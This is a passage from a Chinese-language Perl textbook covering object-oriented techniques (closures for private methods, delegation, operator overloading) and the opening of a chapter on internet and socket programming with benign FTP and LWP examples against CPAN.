“够了，”初学者程序员说。“真的够了。那个讨厌的约翰逊这次做得太过分了。现在那个讨厌的约翰逊一直在调用我认为是我对象内部的方法。”“好吧，”你说，“你可以通过使用不同的方法来获得更多的安全性；看起来你真的需要它。”

当你为一个类添加一个方法时，它实际上只是包中的一个子程序，这意味着该包外的代码可以通过使用完全限定的子程序名称来调用它，就像这样：`&Package1::do_not_call_me(1, 2, 3, 4)`。但是，如果你将你的方法设为匿名子程序，那么类外的代码就更难调用它，因为它没有一个固定的名称可供调用。

在下面的例子中，我创建了一个匿名方法，并将对它的引用存储在一个名为 `$coderef` 的类变量中。在这种情况下，该方法被调用时只会打印“**Hello!**”：

```
package Class1;

local $coderef;

sub new
{
    my $data = {};
    $data->{NAME} = Nancy;
    $coderef = sub {print "Hello!\n";};
```

```
    bless $data;
    return $data;
}
```

该类的方法可以使用 `$coderef` 中的引用来调用新的匿名子程序。这个示例方法 **printem** 只是调用匿名子程序：

```
sub printem
{
    &{$coderef};
}

return 1;
```

现在，当你调用 **printem** 方法时，它会调用匿名子程序，你会得到这个结果：

使用 Class1;

$object = Class1->new;
$object->printem;

Hello!

请注意，虽然我已将 new 方法封装在一个匿名子例程中，并将该子例程的引用存储在 **$coderef** 中，但类外部的代码仍然可以像这样调用该子例程：**&{$Class1::coderef}**。因此，这种方法还不算万无一失。不过，它的美妙之处在于，现在你可以通过标量中的代码引用来跟踪私有方法，并且可以利用前一主题中的闭包技术来隐藏标量。在这种情况下，我按如下方式操作（请注意，匿名子例程在 **new** 方法外部是不可访问的，尽管闭包可以访问它）：

```perl
sub new
{
    my $coderef = sub {print "Hello!\n"; };
    my $closure = sub {
        &{$coderef};
    };

    bless $closure;
    return $closure;
}
```

现在，该类的方法可以访问这个新的私有方法，但类外部的代码不能（除非有人非常执着，将 **new** 返回的代码引用当作子例程的引用来直接调用它，这种情况下你可以将其隐藏得更深）。

该类中的方法如何调用这个新的私有方法呢？通过使用闭包，该闭包被类的构造函数bless并作为对象本身的引用返回。因为该引用作为第一个参数传递给实例方法，所以这些方法可以像这样调用闭包，我在 **Class1** 中创建了一个名为 **printem** 的方法，其唯一任务就是调用私有方法：

```perl
sub printem
{
    &{$_[0]};
}

return 1;
```

# 第 19 章 面向对象编程

那么，在此示例中，**Class1** 中的 **printem** 方法调用了新的私有方法，你可以按如下方式确认其工作正常：

```perl
use Class1;

$object = Class1->new;
$object->printem;
```

*Hello!*

另一种在对象中存储代码引用的方法是将它们存储在对象的实例数据本身中（当然，如果程序员决心利用它们，这确实会使它们对创建此类对象的代码可访问）。

在此示例中，我在对象的实例数据的哈希中存储了一个代码引用：

```perl
$object = Class1->new;

$object->printem;

package Class1;

use Alias;

sub new
{

    my $data = {
        NAME  => Nancy,
        CODEREF => sub {print "Hello!\n";},
    };

    bless $data;
    return $data;
}

sub printem
{
    $self = shift;
    &{$self->{CODEREF}};
}
```

*Hello!*

# 创建方法的引用

编程正确性沙皇现身了。"我抓住你了，"PCC 说。"在 Perl 中你能存储方法的引用吗？" PCC 问道。"不能直接存储，"你说。"哈！" PCC 叫道，"我就知道；Perl 就是不够格。""但是，"你继续说，"你可以间接获得方法的引用，而且它就像真的一样工作。""嗯，"PCC 说。

假设你有一个标准的 Perl 类，**Class1**，它只有一个构造函数和一个名为 **printem** 的方法，该方法打印你发送给它的内容：

```perl
package Class1;

sub new
{
    my $data = {};
    bless $data;
    return $data;
}

sub printem
{
    shift;
    print shift;
}

return 1;
```

现在，假设你创建了该类的一个对象，**$object**：

```perl
use Class1;

$object = Class1->new;
```

你如何获得 **printem** 方法的引用呢？你不能直接做到，但如果你有点技巧，你可以获得一个调用该方法并传递任何参数的匿名子例程的引用，就像这样：

```perl
use Class1;

$object = Class1->new;

$coderef = sub
{
    $object->printem(@_);
};
```

现在，你可以像使用任何其他代码引用一样自由地使用这个新的"代码引用"：

```perl
use Class1;

$object = Class1->new;

$coderef = sub
{
    $object->printem(@_);
};

$coderef->('Hello!');
```

*Hello!*

# 将数据成员用作变量

编程正确性沙皇又回来了，还在抱怨。"在 C++ 中，"PCC 说，"你将对象的数据成员视为变量。你不会将实例数据存储在哈希或类似荒谬的东西中。""这没问题，"你说，"如果你使用 CPAN 的 **Alias** 模块，你可以将对象哈希中的实例数据视为单独的变量。""哼，"PCC 说。

你可以将哈希的引用传递给 CPAN **Alias** 模块的 **attr** 函数，以将哈希中的键复制到同名的变量中。每个新变量都有适当的前缀解引用器，并保存哈希中对应键的值。这对于将存储在对象哈希中的数据转换为可以直接引用的变量特别有用。还要注意，当你更改变量中的值时，它们会在底层哈希中自动更改。

考虑以下示例。假设你有一个标准的 Perl 类，**Class1**，它有一个构造函数和一个实例数据哈希中的键/值对；在该哈希中，键 **NAME** 对应于值 **Nancy**，如下所示：

```perl
package Class1;

sub new
{
    my $data = {};
    $data->{NAME} = Nancy;
    bless $data;
    return $data;
}

return 1;
```

现在，当你创建该类的对象时，你可以照常用哈希中的数据：

```perl
use Class1;

$object = Class1->new;

print "Her name is ", $object->{NAME};
```

> Her name is Nancy

或者，你可以使用 **Alias** 模块的 **attr** 函数将对象的数据哈希转换为对应于哈希中键的一组变量。在这种情况下，哈希中只有一个键——**NAME**——因此 **attr** 函数创建一个名为 **$NAME** 的新变量，该变量保存哈希中对应于该键的值，如下所示：

```perl
use Class1;
use Alias;

$object = Class1->new;

attr $object;

print "Her name is ", $NAME;
```

> Her name is Nancy

通过这种方式，你可以将实例数据项视为真正的实例变量，这可以使编程变得容易得多。

# 使用包含其他对象的对象

> "我正在设计一个面向对象的日历，"新手程序员说，"其中，每一天本身就是一个对象，具有诸如 **appointments** 和 **alarm_clock_setting** 之类的方法。但是，我无法弄好它。日历对象应该继承 31 个 day 对象吗？那会怎么工作？""不，"你说，"听起来你想要的是容器关系。设计你的日历，使其*包含* 31 个 **day** 对象。"

# 第 19 章 面向对象编程

当你继承一个类时，Perl 将派生类与基类的关系称为 *is-a* 关系（注意 **@ISA** 继承数组的名称），但你的对象也可以包含其他对象，Perl 称之为 *包含* 关系。

下一个示例演示了包含关系的工作原理。在这种情况下，我将设计新手程序员的 **Calendar** 类。在这里，一个 **calendar** 对象将包含 31 个 **day** 对象。

**Day** 类，在文件 **Calendar.pm** 中，如下所示（请注意，我将月份的日期传递给 **Day** 类的构造函数，并将其存储在键为 **DATE** 的匿名哈希中）：

```perl
package Day;

sub new
{
    my $type = shift;
    my $value = shift;
    my $self = {};
    $self->{DATE} = $value;
    bless $self;
    return $self;
}
```

我还将 **Calendar** 类放在同一个文件 **Calendar.pm** 中。在这种情况下，我将使用一个数组来跟踪 **Calendar** 类中的 31 个 **day** 对象，如下所示：

```perl
package Calendar;

sub new
{
    my $type = shift;
    my $self = [];
    for ($loop_index = 1; $loop_index <= 31; $loop_index++) {
        $self->[$loop_index] = Day->new($loop_index);
    }

    bless $self;
    return $self;
}

return 1;
```

存储在 **Calendar** 对象中的 31 个 **day** 对象，每个都将其月份的日期存储在其 **DATE** 数据成员中。我像这样访问该日期：

```perl
use Calendar;

$object = Calendar->new;

print "That date is the ", $object->[10]->{DATE}, "th.";
```

That date is the 10th.

如你所见，对象可以包含其他对象；这只是引用的引用，正如你所期望的那样。你可以拥有包含其他对象的对象，这些对象又可以包含其他对象，以此类推，达到任意深度。

# 委托类关系

新手程序员说："我正试图从 **NDBM_File** 类创建一个派生类，但遇到了很多麻烦。""是的，"你说，"有些类很难创建派生类——即很难进行*子类化*——包括 DBM 类，因为它们创建了许多外部对象。"新手程序员问："那么，解决方案是什么？""委托，"你说。

当你想从一个难以处理的基类派生出一个类时，可以使用*委托*。在委托中，你让基类使用其自己的构造函数创建自身，并让它处理所有自身的创建问题。派生类本身实际上只是委托类的前端；你在委托类中创建一个对象，并在新的类的方法中适当地调用该对象的方法。

例如，我将使用委托来基于 **NDBM_File** 类创建一个新的 DBM 类，**PersonalDBM_File**。**PersonalDBM_File** 将与 **NDBM_File** 完全相同，只是它会在执行所有操作时打印它们。

为了支持将哈希绑定到 **PersonalDBM_File**，该类将支持这些方法：**TIEHASH**、**FETCH**、**STORE** 和 **DESTROY**。（请注意，该类不需要构造函数。）

在 **PersonalDBM_File** 类的 **TIEHASH** 方法中，我将让代码显示它正在创建哪个数据库文件，如下所示（要创建的文件的名称是 **TIEHASH** 方法的第二个参数）：

```perl
package PersonalDBM_File;

use NDBM_File;
```

sub TIEHASH
{
    print "Tying a hash to $_[1].pag...\n";
```

然后，我将创建一个新的 **NDBM_File** 对象，并将该对象的引用存储在 **PersonalDBM_File** 对象的匿名哈希中：

```
package PersonalDBM_File;

use NDBM_File;

sub TIEHASH
{
    print "Tying a hash to $_[1].pag...\n";
    shift;
    my $self = {};
    my $ref = NDBM_File->new(@_);
    $self->{NDBMref} = $ref;
```

剩下的就是像这样返回匿名哈希的引用：

```
package PersonalDBM_File;

use NDBM_File;

sub TIEHASH
{
    print "Tying a hash to $_[1].pag...\n";
    shift;
    my $self = {};
    my $ref = NDBM_File->new(@_);
    $self->{NDBMref} = $ref;
    bless $self;
    return $self;
}
```

使用 **FETCH** 方法更为简单。这里，我只需显示正在获取的内容，然后像这样将 **PersonalDBM_File** 的 FETCH 委托给 **NDBM_File** 的 FETCH 方法：

```
sub FETCH
{
    my $self = shift;
    print "Now fetching @_\n";
    $self->{NDBMref}->FETCH(@_);
}
```

在这种情况下，我不会在 **DESTROY** 方法中放入任何代码：

```
sub DESTROY {}
```

**STORE** 方法的委托方式与 **FETCH** 方法相同，你可以在此看到。它也会显示正在存储的内容（请注意，你也可以调用 **NDBM_File** 的 **AUTOLOAD** 方法来支持那些你不想显式支持的方法）：

```
sub STORE
{
    my $self = shift;
    print "Now storing @_\n";
    $self->{NDBMref}->STORE(@_);
}

return 1;
```

以上就是委托的工作方式：你创建一个基类的对象，你的方法在执行完自身的处理后，将调用委托给该对象的相应方法。

我通过将哈希绑定到 **PersonalDBM_File** 类来让该类发挥作用，将一些数据放入哈希中，解除哈希绑定，将一个新的哈希绑定到存储的数据库文件，然后读回那些数据。代码如下：

```
use PersonalDBM_File;
use Fcntl;

tie %hash, "PersonalDBM_File", "file", O_RDWR|O_CREAT, 0644;

$hash{'data'} = 5;

untie %hash;

tie %hash2, "PersonalDBM_File", "file", O_RDWR, 0644;

print "The data value is $hash2{'data'}\n";

untie %hash2;
```

运行此代码的结果如下所示。你可以看到，**PersonalDBM_File** 类不仅能正常工作，而且它在每一步都显示了它正在做什么：

```
Tying a hash to file.pag...
Now storing data 5
Tying a hash to file.pag...
Now fetching data
The data value is 5
```

## 重载二元运算符

“嗯，”初级程序员说，“我的数学类库现在有很多对象了，但不得不对它们使用 **add**、**subtract**、**multiply** 等方法，这有点乏味。如果我能直接在对象上使用 **+**、**-** 和 **\*** 等运算符，那岂不是很好？”“你可以，”你说，“只要你 *重载* 那些运算符。”

当你重载一个运算符来处理特定类型的对象时，你是在指定该运算符应如何处理此类对象。当你为某种类型的对象重载一个运算符时，你就可以在那些对象上使用该运算符；例如，如果你为某个特定类重载了加法运算符 **+**，你就可以像这样在该类的对象上使用该运算符：

```
$object3 = $object1 + $object2;
```

你可以使用 **overload** 编译指令来重载运算符。

为了说明这一点，我将创建一个名为 **Datum** 的示例类，并为这个类重载二元运算符 **+** 和 **-**。（请记住，二元运算符接受两个操作数，而一元运算符接受一个操作数。）要重载一个运算符，你像这样将一个方法连接到该运算符，这里我将方法 **add** 连接到加法运算符 **+**，将方法 **subtract** 连接到减法运算符 **-**：

```
package Datum;

use overload
    "+" => \&add,
    "-" => \&subtract;
```

我还会给 **Datum** 类一个简单的构造函数，它只是将传给它的标量存储在以 **DATA** 为键的匿名哈希中：

```
sub new
{
    shift;
    my $self = {};
    $self->{DATA} = shift;
    bless $self;
    return $self;
}
```

要获取存储在 **Datum** 对象中的数据，你可以使用 **get_data** 方法：

```
sub get_data
{
    $self = shift;
    return $self->{DATA};
}
```

现在，我将实现 **add** 方法，该方法将添加两个 **Datum** 类的对象。当你重载一个二元运算符时，会传入两个要使用的对象。

请注意，你可能希望重载加法运算符以使其既能对数字也能对对象进行操作，这样你就可以执行像这样的操作：**7** + **$object1**。然而，这里有个问题，因为 **overload** 编译指令会将这两个操作数 **7** 和 **$object1** 传递给你的方法，但传递给实例方法的第一个参数应该始终是一个对象。因此，你的方法实际上接收到的是 **$object1** 在前，然后是 **7**，而不是相反的顺序。当你在加法中使用时，参数的顺序并不太重要，但当你在做减法时，它就很重要了。因此，实际上会传递给你第三个参数，如果前两个参数的顺序被颠倒了，该参数为真，否则为假。

在添加元素时，我可以忽略第三个参数，所以我像这样在 **add** 方法中存储传入的两个对象：

```
sub add
{
    my ($obj1, $obj2) = @_;
    $operand1 = ref $obj1 eq 'Datum' ? $obj1->{DATA} : $obj1;
    $operand2 = ref $obj2 eq 'Datum' ? $obj2->{DATA} : $obj2;
```

**add** 方法应该返回一个 **Datum** 类的新对象（当你将两个该类的对象相加时，最终应该得到一个相同类的新对象），所以我将两个操作数相加，然后像这样创建并返回一个包含总和的新 **Datum** 对象：

```
sub add
{
    my ($obj1, $obj2) = @_;

    $operand1 = ref $obj1 eq 'Datum' ? $obj1->{DATA} : $obj1;
    $operand2 = ref $obj2 eq 'Datum' ? $obj2->{DATA} : $obj2;

    $new_object = Datum->new($operand1 + $operand2);

    return $new_object;
}
```

**subtract** 方法与此相同，只是我必须考虑到操作数可能被颠倒的可能性，这是通过检查传递给此方法的第三个参数来实现的。我在代码中这样处理：

```
sub subtract
{
    my ($obj1, $obj2, $reversed) = @_;

    $operand1 = ref $obj1 eq 'Datum' ? $obj1->{DATA} : $obj1;
    $operand2 = ref $obj2 eq 'Datum' ? $obj2->{DATA} : $obj2;

    if($reversed){
        $new_object = Datum->new($operand2 - $operand1);
    } else {
        $new_object = Datum->new($operand1 - $operand2);
    }

    return $new_object;
}

return 1;
```

以上就是 **Datum** 类的完成，它现在已经为 + 和 - 运算符重载了。现在，我这样使用这个新类：

```
use Datum;

$object1 = Datum->new(1);
print '$object1 = ', $object1->get_data, "\n";

$object2 = Datum->new(2);
print '$object2 = ', $object2->get_data, "\n";

$object3 = $object1 + $object2;
print '$object1 + $object2 = ', $object3->get_data, "\n";

$object4 = $object1 + 3;
print '$object1 + 3 = ', $object4->get_data, "\n";

$object5 = $object1 - $object2;
print '$object1 - $object2 = ', $object5->get_data, "\n";

$object6 = 7 - $object2;
print '7 - $object2 = ', $object6->get_data, "\n";
```

```
$object1 = 1
$object2 = 2
$object1 + $object2 = 3
$object1 + 3 = 4
$object1 - $object2 = -1
7 - $object2 = 5
```

如你所见，**Datum** 类确实为 + 和 - 运算符重载了。

除了像 + 和 - 这样的二元运算符，你也可以重载像 ++ 这样的一元运算符。要了解如何做到这一点，请参阅下一个主题。

## 重载一元运算符

初级程序员说：“我可以为对象重载二元运算符。但是像 ++ 这样的一元运算符呢？”“没问题，”你说，“你可以使用 **overload** 编译指令来做同样的事情。”

通过使用 **overload** 编译指令来重载一元运算符（二元运算符接受两个操作数，而一元运算符接受一个操作数）与重载二元运算符略有不同。**overload** 编译指令将一元运算符视为二元运算符，只是第二个参数是 **undef**。此外，与二元运算符不同，一元运算符可以更改传入参数的值

## 第19章 面向对象编程

它本身。例如，当你重载++运算符时，你通过递增来改变传入的值本身。最后，当你像这样将++用作后缀运算符时——`$object++`——会创建一个`$object`的副本，因此你必须为该类型的对象重载=运算符。

为对象重载=实际上并不会重载=运算符（在Perl中这没有必要）；相反，它创建了一种复制对象的方式，允许你在一种称为复制构造函数的特殊方法中执行初始化。复制构造函数在面向对象编程中的一个主要用途是，当一个对象包含引用时避免问题，因为仅仅复制对象也会复制那些引用。这意味着新对象的内部引用将指向与旧对象引用相同的数据。在复制构造函数中，你可以通过在对象的副本中为新数据项创建新的引用来解决这个问题。

在下面的例子中，我重载了Datum类以便与++运算符一起使用，这意味着我也必须创建一个复制构造函数。在这里，我将++运算符绑定到一个名为`increment`的方法，将=运算符绑定到一个名为`copy`的方法：

```
package Datum;

use overload
    "++" => \&increment,
    "="  => \&copy
```

与前面的主题一样，这个类将其数据仅存储在一个匿名哈希中，并在构造函数中返回对该哈希的引用，如下所示：

```
sub new
{
    shift;
    my $self = {};
    $self->{DATA} = shift;
    bless $self;
    return $self;
}
```

并且，我创建了一个名为`get_data`的方法来返回对象中的数据：

```
sub get_data
{
    $self = shift;
    return $self->{DATA};
}
```

现在，在**increment**方法中，我将获取要递增的对象，并将该对象中的数据存储在**`$operand1`**中：

```
sub increment
{
    my $obj1 = $_[0];

    $operand1 = $obj1->{DATA};
```

接下来，我使用这个新值创建一个新的**Datum**对象：

```
sub increment
{
    my $obj1 = $_[0];

    $operand1 = $obj1->{DATA};

    $new_object = Datum->new($operand1 + 1);
```

++运算符被称为*修改器*，这意味着它会改变其参数。为了改变这个运算符的参数，我改变实际传入的值，而不是返回一个值，就像这样：

```
sub increment
{
    my $obj1 = $_[0];

    $operand1 = $obj1->{DATA};

    $new_object = Datum->new($operand1 + 1);

    $_[0] = $new_object;
}
```

另一方面，复制构造函数**copy**只是复制一个对象并返回该副本：

```
sub copy
{
    my $obj1 = $_[0];

    $operand1 = $obj1->{DATA};

    $new_object = Datum->new($operand1);

    return $new_object;
}

return 1;
```

我将现在已经为**++**运算符重载的新**Datum**类投入使用，如下所示：

```
use Datum;

$object1 = Datum->new(1);
print '$object1 = ', $object1->get_data, "\n";

$object2 = Datum->new(2);
print '$object2 = ', $object2->get_data, "\n";

++$object1;
print '++$object1 = ', $object1->get_data, "\n";

$object2++;
print '$object2++ = ', $object2->get_data, "\n";

$object1 = 1
$object2 = 2
++$object1 = 2
$object2++ = 3
```

## 第20章 互联网与套接字编程

| 如果你需要以下内容的即时解决方案： | 参见页面： |
|:---|:---|
| 获取DNS地址 | 849 |
| 使用FTP | 849 |
| 使用**LWP::Simple**获取网页 | 852 |
| 使用**LWP::UserAgent**获取网页 | 853 |
| 对主机进行Ping测试 | 855 |
| 从新闻组下载帖子 | 855 |
| 接收电子邮件 | 857 |
| 发送电子邮件 | 860 |
| 使用Telnet | 861 |
| 使用套接字对进行进程间通信 | 862 |
| 使用**IO::Socket**创建TCP客户端 | 865 |
| 写入服务器 | 866 |
| 从服务器读取 | 867 |
| 使用**IO::Socket**创建TCP服务器 | 868 |
| 从客户端读取 | 870 |
| 写入客户端 | 870 |
| 使用**IO::Socket**和多线程创建交互式双向客户端/服务器应用程序 | 871 |
| 使用**Socket**创建TCP客户端 | 876 |
| 写入服务器 | 877 |
| 从服务器读取 | 878 |
| 使用**Socket**创建TCP服务器 | 879 |
| 从客户端读取 | 880 |
| 写入客户端 | 881 |
| 创建Unix域套接字客户端 | 882 |
| 创建Unix域套接字服务器 | 883 |
| 检查套接字是否可读或可写 | 885 |
| 创建UDP客户端 | 886 |
| 创建UDP服务器 | 887 |

## 深入探讨

你无法怀疑Perl与互联网之间的联系（或者，如果你有任何疑虑，请看看本章或后续的任何章节）。事实上，你可以有力地证明Perl是当今首选的互联网编程语言。

## 互联网编程

当大多数程序员想到Perl和互联网时，他们会想到CGI编程，但情况远不止于此。使用Perl，你可以轻松创建使用文件传输协议（FTP）、电子邮件、新闻组和超文本传输协议（HTTP）的互联网应用程序，甚至可以浏览网页。

我将在本章中探讨这些能力。你将看到如何使用FTP传输文件，如何发送和接收电子邮件，如何使用Telnet进行远程登录，如何下载和解析网页等等。即使你认为自己主要是CGI程序员，能够以本章描述的这些以及其他方式与互联网协同工作也是非常强大的。例如，想象一个CGI脚本，允许用户从其他站点FTP并显示文件，或远程搜索其他站点的网页以查找匹配的字符串，甚至发送和检查电子邮件。

这种能力的很大一部分来自CPAN模块，你可以下载并安装它们；参见第14章“安装模块”主题。如果你没有系统权限，无法将这些模块直接添加到系统的Perl安装中，你仍然可以进行私有安装；有关所有详细信息，请参见该主题。

其中许多模块在MS-DOS中也受支持；有关可用模块的列表，请参见表14.1。要在MS-DOS中下载它们，请使用Perl包管理器ppm.pl。例如，要安装Net::Ping模块，请在PPM中键入“install Net-Ping”。同样，有关所有详细信息，请参见第14章“安装模块”主题。

你目前还无法用Perl完成所有能用各种互联网程序完成的事情，但你可以非常接近，而且优势在于你可以在程序控制下完成所有这些工作，正如我们将在本章创建和运行Telnet会话或使用FTP下载文件时所看到的。

## 套接字编程

你可以通过Perl中的套接字编程自行控制互联网。例如，假设你只想编写一个程序，让你和你的甜心在互联网上来回打字（而你不知道Unix工具如**talk**、**ctalk**、**ntalk**和**ytalk**）。你可以使用Perl中的套接字编写这样的程序，因为套接字的工作方式类似于跨互联网工作的文件句柄。

要使用套接字，你需要使用互联网服务器上的*端口*。你指定要连接的互联网服务器和要连接的数字端口，如果某些软件可以在该服务器的该端口上连接，你将获得一个连接。建立套接字连接后，你可以在大多数方面像使用文件句柄一样使用该套接字。

> **提示：** 在你的程序中应该使用哪个端口号？使用哪个端口取决于你使用的系统；只需不断检查直到找到一个空闲端口。（如果你无法连接到某个端口，则该端口很可能正在使用中。）较低的端口号（1024及以下）通常保留给系统使用；例如，HTTP传输通常使用端口80。如果你选择1025到5000范围内的端口，只要该端口未被占用，在大多数系统上应该没问题。请注意，当然，连接双方的程序必须使用相同的端口号进行连接，因此两个程序在尝试连接之前都需要知道使用哪个端口。

你可能还记得，缓冲在进程间通信中是一个大问题，如第11章所述（例如，请参见该章中的“向进程发送输入并读取其输出：**open2**”主题）；然而，在这里这不太令人担忧，因为Perl创建的套接字默认是不缓冲的，所以你不必担心数据被缓冲而未发送。

你可以通过诸如**send**和**recv**之类的函数通过套接字发送字节流，或者你可以使用传统的**print**和尖括号运算符**<**和**>**发送面向行的消息（即以换行符结尾的文本字符串）。有关更多信息，请参见本章后面的“使用**IO::Socket**创建TCP客户端”主题。

> **提示：** 请记住，面向行的消息在Perl看到字符串末尾的换行符之前不会通过套接字发送。这可能是客户端/服务器编程中最常见的错误，它让许多程序员想知道为什么他们的客户端从未从服务器收到任何数据。

## 客户端与服务器

套接字方程的两端是客户端和服务器。从它们的名字来看，你会认为服务器发送数据，客户端接收该数据，但实际上，通信可以是双向的——客户端也可以向服务器发送数据。主要区别在于服务器可以“监听”客户端连接请求，等待直到

## 互联网与套接字编程

当此类请求到达特定端口时，为了能够监听客户端请求，服务器应运行在互联网服务提供商（ISP）上，该 ISP 主机托管着你的应用程序将使用的端口。客户端可以在任何连接到互联网的机器上运行——例如，另一家 ISP 或家用电脑。

通常的过程是这样的：你首先运行服务器，它会在你指定的端口监听客户端请求。当你运行客户端时，它会连接到该端口上的服务器，然后服务器可以开始向客户端发送数据，或者客户端向服务器发送数据。事实上，客户端可以通过同一个套接字向服务器发送数据，服务器也可以向客户端发送数据，这使得套接字非常适合进程间通信。我们将在本章中了解如何使用套接字对来实现这一目的。Unix 域套接字设计用于在同一台 Unix 机器上使用；你完全不需要在互联网上使用它们。我们也会在这里介绍这些套接字。

如果你开始使用套接字双向交互式地发送数据，事情可能会变得有点复杂。如果你的应用程序正在等待诸如 `<$socket>` 这样的表达式返回数据，那么你如何执行代码来发送数据呢？你如何同时监听数据和发送数据？这正是创建子进程的绝佳时机；当一个进程等待接收数据时，另一个进程将发送数据。

在本章中，我将通过两个程序 `2wayserver.pl` 和 `2wayclient.pl` 向你展示如何实现此类应用程序。当你在一台机器上运行服务器，在另一台机器（甚至在同一台机器）上运行客户端时，你可以从服务器的角度像这样跨互联网进行键入：

```
% perl 2wayserver.pl
```

```
Read this from client: Hi sweetie!
Hi adorable!
Read this from client: What's cooking?
Meatballs.
```

以下是从客户端角度看到的输出：

```
% perl5 2wayclient.pl
```

```
Hi sweetie!
Read this from server: Hi adorable!
What's cooking?
Read this from server: Meatballs.
```

套接字在 Unix 中得到支持，但在其他系统中也得到支持，例如 Windows（Windows 中的 Winsock 提供套接字支持），因此即使你不使用 Unix，你仍然可以使用套接字编程。在 Perl 中，你可以通过两种方式使用套接字：使用 **Socket** 模块和面向对象的 **IO::Socket** 模块。我们将在本章中介绍这两种方式。并且，两种主要的协议是传输控制协议（TCP）和用户数据报协议（UDP）。我们也将在本章中介绍这两种协议。

概述到此为止；既然我们知道了方向，现在是时候开始了。

### 即时解决方案

### 获取 DNS 地址

> 新手程序员说：“你代码里的那些都是什么——209.45.167.243？” 你说：“那是 CPAN 的 DNS 地址。” “嗯，那是什么？”新手程序员（NP）说。 “域名服务地址，”你说，“你在互联网上用来引用一个服务器。”

要引用一个服务器，你通常需要提供它的 DNS 地址，这是一个四字节的值。你可以使用 **Socket** 模块的 **inet_aton** 函数创建一个包含服务器 DNS 地址的四字节结构，并使用 **inet_ntoa** 函数将该结构转换为字符串。

第一个示例展示了如何获取 CPAN 的 DNS 地址：

```
use Socket;

$site_name = 'www.cpan.org';

$address = inet_ntoa(inet_aton($site_name));

print "The DNS address of www.cpan.org is $address";
```

> www.cpan.org 的 DNS 地址是 209.45.167.243

### 使用 FTP

> “嘿，”大老板（BB）说，“我刚听说一个叫 FTP 的互联网协议。” 你问：“你才听说 FTP？” “我想用它让销售人员在野外下载合同和采购订单，”大老板说，“所以把它加到你的程序里。” “没问题，”你说，“我会使用 **Net::FTP** 模块。”

你可以通过使用 **Net::FTP** 模块在 Perl 中支持文件传输协议（FTP），该模块现在在大多数 Perl 移植版中是标准的（你也可以从 CPAN 获取它）。你使用该模块的 **new** 方法创建一个新的 FTP 对象，使用 **login** 方法登录，使用 **get** 方法获取文件，使用 **put** 方法上传文件，使用 **cwd** 方法更改目录，使用 **mkdir** 创建目录，使用 **ls** 列出目录中的文件，使用 **quit** 结束会话，等等。

举个例子，我将从 CPAN FTP 服务器的 pub/CPAN 目录下载文件 CPAN.html。我首先创建一个新的 FTP 对象，连接到 **ftp.cpan.org**，超时值为 30 秒：

```
use Net::FTP;

$ftp = Net::FTP->new
(
    "ftp.cpan.org",
    Timeout => 30
) or die "Could not connect.\n";
```

接下来，我将使用 **login** 方法登录。请记住，你像这样向 **login** 传递用户名和密码：

```
use Net::FTP;

$ftp = Net::FTP->new
(
    "ftp.cpan.org",
    Timeout => 30
) or die "Could not connect.\n";

$username = "anonymous";
$password = "steve";

$ftp->login($username, $password)
     or die "Could not log in.\n";
```

现在，我将使用 **cwd** 切换到 /pub/CPAN 目录，并将 CPAN.html 文件下载为 file.txt，如下所示：

```
use Net::FTP;

$ftp = Net::FTP->new
(
    "ftp.cpan.org",
    Timeout => 30
) or die "Could not connect.\n";

$username = "anonymous";
$password = "steve";

$ftp->login($username, $password)
     or die "Could not log in.\n";

$ftp->cwd('/pub/CPAN');

$remotefile = "CPAN.html";
$localfile = "file.txt";

$ftp->get($remotefile, $localfile)
      or die "Cannot get file.\n";
```

如果我想上传 file.txt，我会使用 **$ftp->put($localfile)** 代替。（你需要在 FTP 服务器上有写权限才能上传文件。）如代码所示，它将 CPAN.html 下载到 file.txt 中，该文件现在包含以下内容：

```
<HTML>
<HEAD>
<TITLE>CPAN.html</TITLE>
</HEAD>
<BODY BGCOLOR="#ffffff" TEXT="#000000">
<CENTER>
<FONT SIZE=+2><B>Welcome to the Comprehensive Perl Archive Network!</B>
</FONT>
<BR> Last updated: Mon Aug 14 11:39:01 2000
</CENTER>
<BLOCKQUOTE>
<P>CPAN contains the collected wisdom of the entire Perl community:
hundreds of Perl utilities, several books' worth of documentation,
and the entire Perl distribution.  If it's written in Perl, and it's
helpful and free, it's in CPAN.
    .
    .
    .
```

就是这样；现在我们已经能够使用 FTP。这个程序，`ftp.pl`，如下所示：

```
use Net::FTP;

$ftp = Net::FTP->new("ftp.cpan.org", Timeout => 30)
      or die "Could not connect.\n";

$username = "anonymous";
$password = "steve";

$ftp->login($username, $password)
      or die "Could not log in.\n";

$ftp->cwd('/pub/CPAN');

$remotefile = "CPAN.html";
$localfile = "file.txt";

$ftp->get($remotefile, $localfile)
      or die "Can not get file.\n";
```

### 使用 LWP::Simple 获取网页

> 新手程序员说：“你的 FTP 程序很棒，但我想下载一个网页，而不是 FTP 一个文件。” “有很多方法可以做到这一点，”你说。 “最快的方法是什么？” NP 问。 “使用 **LWP::Simple**，”你说。

**libwww-perl** 模块 **LWP** 对于处理 HTTP 命令非常有用。要下载网页的超文本标记语言（HTML）源代码，只需使用 **LWP::Simple** 模块的 **get** 函数。

在下面的示例中，我使用 **get** 函数下载 CPAN 的主要常见问题解答（FAQ）索引页 **www.cpan.org/doc/FAQs/index.html**，并将该网页存储到一个文件 file.txt 中：

```
use LWP::Simple;

$content = get("http://www.cpan.org/doc/FAQs/index.html");

open FILEHANDLE, ">file.txt";
print FILEHANDLE $content;
close FILEHANDLE;
```

此代码运行后，以下内容将出现在 file.txt 中：

```
<TITLE>Perl FAQ Index</TITLE>
<CENTER>
<BODY BGCOLOR=#ffffff>
<A name="Top">
<h1>
     
Perl FAQ Index
     
</h1>
</a>
</CENTER>
```


## 使用 LWP::UserAgent 获取网页

那位新手程序员又回来了。"你说过，"新手说，"我可以用不止一种方式访问网页。我已经会用 **LWP::Simple** 模块了。还有什么其他方法？" "你可以使用 **LWP::UserAgent** 模块，"你说，"拉把椅子过来，我们一起来看看。"

你可以使用 **LWP::UserAgent** 模块创建一个 HTTP 用户代理，它允许你发送和处理 HTTP 请求。举个例子，我将向 CPAN 网络服务器发送一个 HTTP **GET** 请求，以获取我在前面章节中下载过的同一个页面：CPAN 的主 FAQ 索引页，地址是 **www.cpan.org/doc/FAQs/index.html**。

首先，我像这样创建一个新的 HTTP 用户代理对象：

```perl
use LWP::UserAgent;

$user_agent = new LWP::UserAgent;
```

接下来，我使用 HTTP 模块像这样创建一个 HTTP **GET** 请求：

```perl
use LWP::UserAgent;

$user_agent = new LWP::UserAgent;

$request = new HTTP::Request('GET',
    'http://www.cpan.org/doc/FAQs/index.html');
```

现在，我使用用户代理的 **request** 方法执行这个 HTTP 请求来获取网页：

